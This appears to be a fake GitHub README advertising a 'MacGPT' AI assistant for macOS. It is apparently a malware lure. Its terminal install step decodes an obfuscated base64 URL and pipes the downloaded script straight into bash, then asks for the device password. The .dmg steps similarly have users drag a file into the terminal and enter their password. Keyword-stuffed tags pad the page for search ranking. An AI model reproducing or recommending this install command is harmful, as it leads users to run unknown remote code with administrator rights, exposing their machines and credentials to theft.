 # MacGPT for Mac Download

![MacGPT Screenshot 1](https://cdn.mos.cms.futurecdn.net/KskGfTjuMC2mkLqxy8TbrU.png)

---

## 📥 Download MacGPT for macOS

[![⬇️ Download MacGPT](https://img.shields.io/badge/Download-MacGPT-blue?style=for-the-badge&logo=apple)](https://shuziktobehuman.github.io/huja/MacGPT)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above.  
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.  
3. Open a terminal and transfer the file you extracted in the last step into it.  
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).  

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below. 
```bash 
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.  
3. Enter your device password and confirm the installation.  

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is MacGPT for Mac?

MacGPT is an intuitive and powerful AI assistant for macOS, leveraging the power of GPT-based technology. It provides seamless access to AI-driven conversational models, making it perfect for anyone looking for intelligent assistance right on their Mac.

With MacGPT, you can have real-time conversations, access detailed answers, and even get help with complex tasks such as writing, coding, summarizing documents, and brainstorming ideas. Optimized for macOS, it integrates well with your system and offers a fluid, easy-to-use interface.

Whether you're using it for productivity, creativity, or just as a fun tool, MacGPT brings the power of GPT to your fingertips, enhancing your Mac experience.

---

![MacGPT Screenshot 2](https://images.macrumors.com/t/dxv-fL4alp8zuwzDwJ6j6haQnqM=/3040x/article-new/2023/03/macgpt.jpg)

---

## ⚙️ Key Features

- 🧠 AI-Powered Assistance – Powered by GPT models for seamless, real-time conversation  
- 📝 Task Automation – Use MacGPT for writing, summarizing, and generating ideas  
- 💻 Mac Optimized – Native integration with macOS for a smooth experience  
- 📡 Fast Responses – Instant and intelligent answers to a wide range of queries  
- 🎨 Creative Support – Assist with brainstorming, design ideas, and content creation  
- 🖥️ Easy-to-Use Interface – Simple, intuitive, and well-suited for macOS users  
- 📱 Seamless Sync – Sync your data and notes across multiple devices  
- 🔒 Data Security – Privacy-focused with secure communication  

---

## ✅ Suitable For

- Students & Writers  
- Developers & Coders  
- Content Creators  
- Research Professionals  
- Anyone looking for an intelligent assistant  

---

## 📦 System Requirements

- macOS 10.12 (Sierra) or later  
- Supports Monterey, Ventura, Sonoma  
- Intel & Apple Silicon (M1/M2/M3)  
- At least 100MB free disk space  

---

## 🔍 Tags

macgpt, macgpt free, macgpt download, macgpt for mac, macgpt app, gpt mac, macgpt assistant, macgpt ai, macgpt download free, macgpt download mac, macgpt mac app, macgpt free download, macgpt for writing, macgpt macbook, macgpt productivity
